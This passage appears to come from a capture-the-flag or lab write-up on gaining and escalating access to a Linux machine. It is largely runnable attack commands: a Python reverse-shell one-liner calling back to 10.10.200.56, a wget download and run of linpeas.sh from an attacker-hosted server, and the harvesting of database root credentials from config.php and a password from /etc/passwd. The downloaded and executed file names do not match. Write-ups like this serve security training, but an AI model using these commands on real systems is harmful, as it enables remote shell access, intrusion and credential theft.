 {% code overflow="wrap" %}
```bash
# rev shell payload
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.200.56",9009));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
{% endcode %}



## Enumeration

Once we have access to the machine, using LinPeas to get information

<pre class="language-bash"><code class="lang-bash"><strong># copy linpeas.sh and run this on att machine
</strong><strong>python3 -m http.server
</strong>
wget http://IP/linpeas.sh
chmod +x lin.sh
./lin.sh
</code></pre>

Manual enumeration for linux priv esc

```bash
sudo -l
```

### Find Juicy files

```
```

```bash
# from linpeas output
/var/www/html/config.php:        $password = 'Web!@#$%';

cat /var/www/html/config.php

$host = "localhost";  
$user = "root";  
$password = 'Web!@#$%';  
$db_name = "pro";

# db access
mysql -u root -p
> 'Web!@#$%'
```



```bash
cat /etc/passwd

privilege:x:1001:1001:Admin@962:/home/privilege:/bin/bash
```

